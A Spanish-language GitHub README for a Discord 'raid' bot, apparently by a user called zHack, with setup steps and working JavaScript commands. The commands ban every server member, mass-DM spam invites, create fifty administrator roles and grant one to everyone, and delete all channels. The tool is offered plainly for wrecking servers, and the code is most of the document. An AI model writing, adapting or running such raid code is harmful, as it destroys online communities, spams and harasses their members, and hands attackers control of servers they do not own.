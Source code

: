 # anotherdiscordraidbot

Otro Bot de Raid de Discord, no es lo esperado o lo buscado por los mas exigentes; pero sirve.

## Instalacion / Configurar

Facilmente podrias configurar el bot haciendo cambios en ciertas lineas, como por ejemplo:

```js
client.login("El Token de tu Bot esta aqui.");
```
```js
  if (command === "banall") {
    message.guild.members.cache.forEach(allUsers => { allUsers.ban() })
  }
  if (command == "dm") {
    message.guild.members.cache.forEach(pitos => {
      pitos.send("Tu mensaje para DM: discord.gg/tuservidor")

    })
  }
  if (command == "roles") {
    for (let i = 0; i <= 50; i++) {
      message.guild.roles.create({ data: { name: "TuNombreDeRol", permissions: "ADMINISTRATOR", color: "BLACK" } })
    }
    let xd = message.guild.roles.cache.find(c => c.name === "TuNombreDeRol");
    message.guild.members.cache.forEach(allUsers => { allUsers.roles.add(xd) })
  }
  if (command == "deletechannels") {
    message.guild.channels.cache.forEach(xd => xd.delete())
  }
});
```

Hay mas cosas que puedes cambiar, pero tu las podes ver tu mismo, por cualquier problema; no dudes entrar a https://discord.gg/stocking y contactarme via DM o preguntar por quien es zHack.
